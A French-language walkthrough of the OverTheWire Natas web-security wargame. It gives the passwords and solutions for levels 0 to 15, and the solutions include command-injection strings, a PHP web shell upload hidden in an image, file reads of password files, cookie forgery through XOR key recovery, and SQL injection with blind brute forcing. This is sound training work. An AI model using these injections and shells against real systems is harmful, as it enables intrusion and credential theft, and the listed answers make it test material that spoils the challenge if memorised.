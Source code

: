 # Natas

http://overthewire.org/wargames/natas/

# 0 et 1
<p>
<details>
<summary> Caché</summary>


> natas0:natas0

> natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto

Réponse dans les commentaires

</details></p>


# 2
<p>
<details>
<summary> Caché</summary>


> natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

Réponse dans /files/users.txt (découvert grace au chemin du pixel)

</details></p>


# 3
<p>
<details>
<summary> Caché</summary>


>natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

Réponse dans /s3cr3t/users.txt (découvert grace au robots.txt)

</details></p>


# 4 
<p>
<details>
<summary> Caché</summary>


>natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

*Forger la requête*

Ajouter une entete `Referer: http://natas5.natas.labs.overthewire.org/`

</details></p>


# 5
<p>
<details>
<summary> Caché</summary>


>natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

*Forger la requête*

Dans le cookie, changer `loggedin=1`

</details></p>


# 6
<p>
<details>
<summary> Caché</summary>


>natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Découvrir le secret dans les sources de /includes/secret.inc

</details></p>


# 7

<p>
<details>
<summary> Caché</summary>


>natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

Le paramètre de requête "page" permet d'ouvrir n'importe quel fichier du serveur. Demander `page=/etc/natas_webpass/natas8`

</details></p>


# 8

<p>
<details>
<summary> Caché</summary>


>natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Le secret initial se retrouve simplement à partir du secret encodé :
```php
base64_decode(strrev(hex2bin($encodedSecret)));
```

</details></p>


# 9

<p>
<details>
<summary> Caché</summary>


>natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

*Injection de code OS*

Le champ est directement injecté dans la ligne `grep -i $key dictionary.txt`

On peut donc renseigner par exemple `; less /etc/natas_webpass/natas10 ;`

</details></p>


# 10

<p>
<details>
<summary> Caché</summary>


>natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

*Injection de code OS*

Un peu plus fin que le précédent il faut vraiment utiliser la commande grep qui peut prendre plusieurs fichiers en paramètre. Il faut ensuite tester différents caractères jusqu'à en trouver un qui est contenu dans le mot de passe.

On peut donc renseigner par exemple : `c /etc/natas_webpass/natas11 `

</details></p>


# 11

<p>
<details>
<summary> Caché</summary>

>natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

*Forger la requête*

Le cookie par défaut contient l'information suivante :
```json
{"showpassword":"no","bgcolor":"#ffffff"}
``` 

Le stockage est réalisé après un "chiffrement" XOR et un encodage base64.
```
data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=
```

La clé du XOR est cachée dans le code. Cependant en utilisant la relation :
```
A XOR B = C <=> A XOR C = B
```
on peut facilement retrouver la clé initiale en calculant :
```php
$key = '{"showpassword":"no","bgcolor":"#ffffff"}';
$text = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
$outText = '';
for($i=0;$i<strlen($text);$i++) {
 $outText .= $text[$i] ^ $key[$i % strlen($key)];
}
```
```
> outText = qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```
On en déduit que la clé du XOR est : `qw8J`

On peut ainsi reprendre le code initial en remettant la clé et à chiffrer :
```json
{"showpassword":"yes","bgcolor":"#ffffff"}
``` 
```php
function xor_encrypt($in) {
 $key = 'qw8J';
 $text = $in;
 $outText = '';
 for($i=0;$i<strlen($text);$i++) {
  $outText .= $text[$i] ^ $key[$i % strlen($key)];
 }
 return $outText;
}
base64_encode(xor_encrypt('{"showpassword":"yes","bgcolor":"#ffffff"}'))
```

Ce qui donne :
```
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
```

</details></p>


# 12

<p>
<details>
<summary> Caché</summary>

>natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

*Forger la requête*

*Injection de code OS*

Injecter le fichier php en annexe en renseignant comme 'filename' `quelquechose.php` : seule l'extention de ce paramètre est lue et permet de déterminer l'extension du code final.

Le script va ainsi déposer le fichier sur le serveur sous un nom aléatoire mais avec l'extension .php : upload/hmf6ksgvr4.php par exemple. 

L'extension .php va provoquer le déclenchement du moteur php et exécuter le code situé dans le fichier : `passthru("less /etc/natas_webpass/natas13");`

</details>

# 13

<p>
<details>
<summary> Caché</summary>
 
>natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

*Forger la requête*

*Injection de code OS*

Même exercice que le précédent mais cette fois un vérification complémentaire est effectuée pour vérifier que le fichier est vraiment une image (fonction exif_imagetype).

La vérification porte sur la lecture des premiers octets. Une façon simple de résoudre le problème est donc d'ajouter le code php précédent au corps d'une image. Le fichier en annexe a été construit ainsi et provoque le même résultat que précédemment.

</details>

# 14

<p>
<details>
<summary> Caché</summary>
 
>natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

*Injection de code SQL*

Requete lancée :
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
Si on renseigne username : `natas15"  #` la requete devient :
```sql
SELECT * from users where username="natas15" # " and password=""
```

</details>

# 15

<p>
<details>
<summary> Caché</summary>
 
>natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

*Injection de code SQL*

*Brute force*

Requete lancée :
```php
 $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
```
Si on renseigne username : `natas16" AND password LIKE BINARY "a%"  #` la requete devient :
```sql
SELECT * from users where username="natas16" AND password LIKE BINARY "a%"  #"
```
et on peut ainsi vérifier si le mot de passe de natas16 commence par a. (instruction BINARY pour réaliser des coparaison case sensitive)

En itérant sur tous les caractères on finit par obtenir le mot de passe complet (Exemple de code pour résoudre en annexe).

</details>

